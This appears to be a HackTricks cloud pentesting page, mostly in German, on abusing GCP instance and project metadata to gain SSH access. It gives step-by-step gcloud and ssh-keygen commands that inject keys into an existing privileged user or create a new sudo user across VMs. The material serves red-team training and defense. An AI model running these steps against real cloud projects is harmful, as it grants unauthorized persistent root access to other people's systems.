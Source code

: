 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Die Modifikation der Metadaten auf einer Instanz könnte zu **signifikanten Sicherheitsrisiken führen, wenn ein Angreifer die notwendigen Berechtigungen erlangt**.

#### **Incorporation of SSH Keys into Custom Metadata**

Auf GCP führen **Linux-Systeme** häufig Skripte aus der [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) aus. Ein kritischer Bestandteil davon ist der [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), der dazu dient, **regelmäßig** den Metadaten-Endpunkt der Instanz auf **Updates der autorisierten SSH-Öffentlichen Schlüssel** zu überprüfen.

Wenn ein Angreifer also die benutzerdefinierten Metadaten ändern kann, könnte er den Daemon dazu bringen, einen neuen öffentlichen Schlüssel zu finden, der verarbeitet und **in das lokale System integriert** wird. Der Schlüssel wird in die Datei `~/.ssh/authorized_keys` eines **bestehenden Benutzers hinzugefügt oder möglicherweise wird ein neuer Benutzer mit `sudo`-Rechten erstellt**, abhängig vom Format des Schlüssels. Und der Angreifer wird in der Lage sein, den Host zu kompromittieren.

#### **Add SSH key to existing privileged user**

1. **Überprüfen der vorhandenen SSH-Schlüssel auf der Instanz:**
*   Führe den Befehl aus, um die Instanz und ihre Metadaten zu beschreiben, um vorhandene SSH-Schlüssel zu finden. Der relevante Abschnitt in der Ausgabe befindet sich unter `metadata`, speziell dem Schlüssel `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Achte auf das Format der SSH-Schlüssel: der Benutzername steht vor dem Schlüssel, getrennt durch einen Doppelpunkt.
2. **Vorbereiten einer Textdatei für SSH-Schlüssel-Metadaten:**
* Speichere die Details der Benutzernamen und ihrer entsprechenden SSH-Schlüssel in einer Textdatei namens `meta.txt`. Dies ist wichtig, um die vorhandenen Schlüssel zu erhalten, während neue hinzugefügt werden.
3. **Generiere einen neuen SSH-Schlüssel für den Zielbenutzer (`alice` in diesem Beispiel):**
*   Verwende den Befehl `ssh-keygen`, um einen neuen SSH-Schlüssel zu generieren, wobei sichergestellt wird, dass das Kommentarfeld (`-C`) mit dem Zielbenutzernamen übereinstimmt.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Füge den neuen öffentlichen Schlüssel zu `meta.txt` hinzu, indem du das Format nachahmst, das in den Metadaten der Instanz gefunden wurde.
4. **Aktualisiere die SSH-Schlüssel-Metadaten der Instanz:**
*   Wende die aktualisierten SSH-Schlüssel-Metadaten auf die Instanz an, indem du den Befehl `gcloud compute instances add-metadata` verwendest.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Greife mit dem neuen SSH-Schlüssel auf die Instanz zu:**
*   Verbinde dich mit SSH zur Instanz unter Verwendung des neuen Schlüssels und greife auf die Shell im Kontext des Zielbenutzers (`alice` in diesem Beispiel) zu.

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Create a new privileged user and add a SSH key**

Wenn kein interessanter Benutzer gefunden wird, ist es möglich, einen neuen zu erstellen, dem `sudo`-Rechte gegeben werden:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH-Schlüssel auf Projektebene <a href="#sshing-around" id="sshing-around"></a>

Es ist möglich, den Zugriff auf SSH für mehrere virtuelle Maschinen (VMs) in einer Cloud-Umgebung zu erweitern, indem **SSH-Schlüssel auf Projektebene angewendet werden**. Dieser Ansatz ermöglicht den SSH-Zugriff auf jede Instanz innerhalb des Projekts, die nicht ausdrücklich die projektweiten SSH-Schlüssel blockiert hat. Hier ist eine zusammengefasste Anleitung:

1. **SSH-Schlüssel auf Projektebene anwenden:**
*   Verwenden Sie den Befehl `gcloud compute project-info add-metadata`, um SSH-Schlüssel aus `meta.txt` zu den Metadaten des Projekts hinzuzufügen. Diese Aktion stellt sicher, dass die SSH-Schlüssel in allen VMs des Projekts erkannt werden, es sei denn, eine VM hat die Option "Projektweite SSH-Schlüssel blockieren" aktiviert.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH in Instanzen mit projektweiten Schlüsseln:**
* Mit den projektweiten SSH-Schlüsseln können Sie in jede Instanz innerhalb des Projekts SSH-en. Instanzen, die projektweite Schlüssel nicht blockieren, akzeptieren den SSH-Schlüssel und gewähren Zugriff.
* Eine direkte Methode, um in eine Instanz SSH zu gelangen, ist die Verwendung des Befehls `gcloud compute ssh [INSTANCE]`. Dieser Befehl verwendet Ihren aktuellen Benutzernamen und die auf Projektebene festgelegten SSH-Schlüssel, um den Zugriff zu versuchen.

## Referenzen

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
